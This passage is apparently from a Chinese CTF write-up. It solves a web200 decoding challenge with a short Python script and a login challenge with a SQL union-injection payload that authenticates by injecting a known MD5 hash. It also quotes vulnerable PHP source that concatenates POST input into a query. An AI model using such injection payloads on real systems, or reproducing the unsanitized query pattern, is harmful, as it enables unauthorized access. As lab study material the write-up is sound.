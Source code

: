 ### 0x16 NSCTF web200
#### 简单概括：
+ 考点：逆加密过程  
+ 难度：易  
+ WP：
```
部分：
x = "~88:36e1bg8438e41757d:29cgeb6e48c`GUDTO|;hbmg"
c = ""
for a in x:
    b = ord(a)
    c += chr(b-1)
print(c)
```

#### 解题过程：
打开题目：  
![](http://ctf5.shiyanbar.com/web/web200.jpg)  
解密问题，按照加密过程反着解密即可。  

### 0x17 程序逻辑问题
#### 简单概括：
+ 考点：union select联合注入  
+ 难度：易  
+ WP：`user=123aaa%27+union+select+%27c4ca4238a0b923820dcc509a6f75849b&pass=1`  

#### 解题过程：
打开题目，右键查看源代码得到题目源码：
```
<html>
<head>
welcome to simplexue
</head>
<body>
<?php
if($_POST[user] && $_POST[pass]) {
	$conn = mysql_connect("********, "*****", "********");
	mysql_select_db("phpformysql") or die("Could not select database");
	if ($conn->connect_error) {
		die("Connection failed: " . mysql_error($conn));
} 
$user = $_POST[user];
$pass = md5($_POST[pass]);

$sql = "select pw from php where user='$user'";
$query = mysql_query($sql);
if (!$query) {
	printf("Error: %s\n", mysql_error($conn));
	exit();
}
$row = mysql_fetch_array($query, MYSQL_ASSOC);
//echo $row["pw"];
  
  if (($row[pw]) && (!strcasecmp($pass, $row[pw]))) {
	echo "<p>Logged in! Key:************** </p>";
}
else {
    echo("<p>Log in failure!</p>");
	
  }
}
?>
```